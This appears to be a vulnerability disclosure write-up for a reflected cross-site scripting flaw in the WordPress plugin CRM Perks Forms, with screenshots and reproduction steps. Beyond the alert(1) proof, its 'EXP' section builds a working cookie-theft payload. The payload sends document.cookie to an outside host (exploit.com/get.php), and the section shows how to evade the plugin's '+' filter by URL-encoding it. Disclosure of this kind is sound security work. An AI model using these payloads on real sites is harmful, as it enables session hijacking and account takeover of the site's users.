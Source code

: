 0x01 Vulnerability description

    There is an XSS(Cross Site Scripting) vulerability in the wordpress plugin called CRM Perks Forms.
    An attacker inserts malicious code into a web-page URL.
    The code is triggered when user clicks the malicious links and move his mouse over the list area on the left of the web-page. 

0x02 Recurrence of the vulnerability

    This is tne main page of the plugin.
    First, click Add-New-Form to create a new form.
![1.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-1.png)

    Choose one template.
![2.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-2.png)

    This is the affected page with XSS vulnerability.
    You can see that my new form id is 66, yours may be 1, it doesn't matter, cause I have created it many times.
    So the affected web-page URL is: http://127.0.0.1/wordpress/wp-admin/admin.php?page=cfx-form&form_id=66
    Statement: This URL can be used regardless of whether you have created a form, and the id can be any number.
![3.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-3.png)

    Payload: "onmouseover=alert(1)//
    Enter the payload in the URL bar and move your mouse over the list area on the left of the web-page, an alert pop-up will appear.
    So, there is an XSS vulnerability.
![4.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-4.png)

「EXP」

Purpose: By clicking on the malicious URL link constructed by the attacker and moving mouse, the user will leak his own cookie.

    Change the payload to: "onmouseover=alert(document.cookie)//.
    We can see the user cookie information in the pop-up window.
![5.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-5.png)

    Build a listening server locally to receive the cookie information of the target user.
    Write a PHP script 'getcookie.php' on the server to remotely receive cookie information.
    The function of this script is to write the received cookie into the 'cookie.txt'.
    At this point the payload is: "onmouseover=location.href="http://exploit.com/get.php?cookie="+document.cookie//
    We extend the payload to the URL to make a request, find that there is no user's cookie in the 'cookie.txt' file of the remote server.
    Check the source code of the web page and find that the '+' in the span tag is filtered.
![8.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-8.png)

    So try to convert '+' to URL encoding '%2B'.
    Construct a new payload: "onmouseover=location.href="http://exploit.com/get.php?cookie="%2Bdocument.cookie//
    Enter payload in the URL bar.
![12.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/2023-04-22_23-12.png)

    
![9.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-9.png)


![10.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-10.png)


![11.png](https://github.com/Don-H50/wp-vul/blob/main/images/CRM/0422-11.png)




   
    
